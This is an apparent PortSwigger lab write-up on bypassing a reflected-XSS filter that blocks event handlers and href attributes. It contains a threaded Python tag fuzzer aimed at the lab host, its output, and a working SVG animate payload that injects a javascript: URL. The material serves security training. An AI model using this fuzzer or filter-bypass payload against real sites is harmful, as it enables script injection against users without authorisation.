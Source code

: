 # Reflected XSS with event handlers and `href` attributes blocked

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked), you'll learn: Reflected XSS with event handlers and `href` attributes blocked! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★☆☆☆☆☆☆

## Background

This lab contains a [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability with some whitelisted tags, but all events and anchor `href` attributes are blocked.

To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that injects a vector that, when clicked, calls the `alert` function.

Note that you need to label your vector with the word "Click" in order to induce the simulated lab user to click your vector. For example:

```html
<a href="">Click me</a>
```

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-25/images/Pasted%20image%2020230101053709.png)

In here, we can see there is a search box.

Let's search something:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-25/images/Pasted%20image%2020230101053731.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-25/images/Pasted%20image%2020230101053754.png)

As you can see, our input is reflected to the web page.

Let's try to inject a JavaScript code:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-25/images/Pasted%20image%2020230101054141.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-25/images/Pasted%20image%2020230101054148.png)

However, the application blocks us.

**Let's fuzz usable tags via a python script:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

def sendRequest(tag):
    payload = f'<{tag}>'
    url = f'https://0af200f90416972dc03527bf001500b1.web-security-academy.net/?search={payload}'

    requestResult = requests.get(url)

    if 'Tag is not allowed' not in requestResult.text:
        print(f'[+] Found valid tag: {payload}')

def main():
    # From PortSwigger's Cross-site scripting (XSS) cheat sheet:
    # https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
    listTags = ['a', 'a2', 'abbr', 'acronym', 'address', 'animate', 'animatemotion', 'animatetransform', 'applet', 'area', 'article', 'aside', 'audio', 'audio2', 'b', 'bdi', 'bdo', 'big', 'blink', 'blockquote', 'body', 'br', 'button', 'canvas', 'caption', 'center', 'cite', 'code', 'col', 'colgroup', 'command', 'content', 'custom tags', 'data', 'datalist', 'dd', 'del', 'details', 'dfn', 'dialog', 'dir', 'div', 'dl', 'dt', 'element', 'em', 'embed', 'fieldset', 'figcaption', 'figure', 'font', 'footer', 'form', 'frame', 'frameset', 'h1', 'head', 'header', 'hgroup', 'hr', 'html', 'i', 'iframe', 'iframe2', 'image', 'image2', 'image3', 'img', 'img2', 'input', 'input2', 'input3', 'input4', 'ins', 'kbd', 'keygen', 'label', 'legend', 'li', 'link', 'listing', 'main', 'map', 'mark', 'marquee', 'menu', 'menuitem', 'meta', 'meter', 'multicol', 'nav', 'nextid', 'nobr', 'noembed', 'noframes', 'noscript', 'object', 'ol', 'optgroup', 'option', 'output', 'p', 'param', 'picture', 'plaintext', 'pre', 'progress', 'q', 'rb', 'rp', 'rt', 'rtc', 'ruby', 's', 'samp', 'script', 'section', 'select', 'set', 'shadow', 'slot', 'small', 'source', 'spacer', 'span', 'strike', 'strong', 'style', 'sub', 'summary', 'sup', 'svg', 'table', 'tbody', 'td', 'template', 'textarea', 'tfoot', 'th', 'thead', 'time', 'title', 'tr', 'track', 'tt', 'u', 'ul', 'var', 'video', 'video2', 'wbr', 'xmp']

    for tag in listTags:
        thread = Thread(target=sendRequest, args=(tag,))
        thread.start()
        sleep(0.2)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Cross-Site-Scripting]
└─# python3 tag_fuzzing.py
[+] Found valid tag: <a>
[+] Found valid tag: <animate>
[+] Found valid tag: <image>
[+] Found valid tag: <svg>
[+] Found valid tag: <title>
```

**Let's go to PortSwigger's [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) to choose a payload:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-25/images/Pasted%20image%2020230101055619.png)

`svg -> animate` looks good.

```html
<svg><animate onbegin=alert(1) attributeName=x dur=1s>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-25/images/Pasted%20image%2020230101055734.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-25/images/Pasted%20image%2020230101055740.png)

Hmm... `Event is not allowed`.

**Now, we can use the `attributeName` attribute, and `<a>` tag to create a link:**
```html
<svg><a><animate attributeName=href values=javascript:alert(document.domain)></animate><text x=100 y=100>Click me</text></a>
```

**Beautified:**
```html
<svg>
<a>
    <animate attributeName=href values=javascript:alert(document.domain)></animate>
    <text x=100 y=100>Click me</text>
</a>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-25/images/Pasted%20image%2020230101060745.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-25/images/Pasted%20image%2020230101060753.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-25/images/Pasted%20image%2020230101060759.png)

Nice!

# What we've learned:

1. Reflected XSS with event handlers and `href` attributes blocked